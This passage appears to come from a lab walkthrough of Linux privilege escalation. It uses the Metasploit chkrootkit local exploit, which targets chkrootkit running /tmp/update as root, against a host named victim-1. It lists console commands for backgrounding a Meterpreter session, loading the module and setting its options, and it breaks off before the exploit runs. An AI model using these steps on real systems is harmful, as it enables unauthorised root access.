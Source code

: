We can enumerate the version by using `-V`.

```
jackie@victim-1:~$ chkrootkit -V
```

The version of chkrootkit is 0.4.9, which means we can exploit this particular binary in order to elevate our privileges.

Put this in the background.

Terminate this channel.

```
jackie@victim-1:~$ ^C
```

Put the Meterpreter session in the background.

```
Background session 2? [y/N] y
```

Search for the chkrootkit exploit module here.

```
search chkrootkit
use exploit/unix/local/chkrootkit
show options
```

[Chkrootkit Local Privilege Escalation](https://www.rapid7.com/db/modules/exploit/unix/local/chkrootkit/)

Chkrootkit before 0.50 will run any executable file named /tmp/update as root, allowing a trivial privilege escalation. WfsDelay is set to 24h, since this is how often a chkrootkit scan is scheduled by default.

Chkrootkit 本地提权

0.50 之前的 Chkrootkit 将以 root 身份运行任何名为 /tmp/update 的可执行文件，从而允许进行微不足道的权限提升。WfsDelay 设置为 24h，因为这是默认安排 chkrootkit 扫描的频率。

We can also configure the payload option, which in this case, the payload that's being used is a simple command shell payload for Unix.

```
info
```

When we perform the enumeration of chkrootkit, chkrootkit is stored under the binary directory `/bin/chkrootkit`.

In order to execute this.

```
set CHKROOTKIT /bin/chkrootkit
```

Because Linux will be able to specify that or to identify the value of the binary.

```
set SESSION 2
```
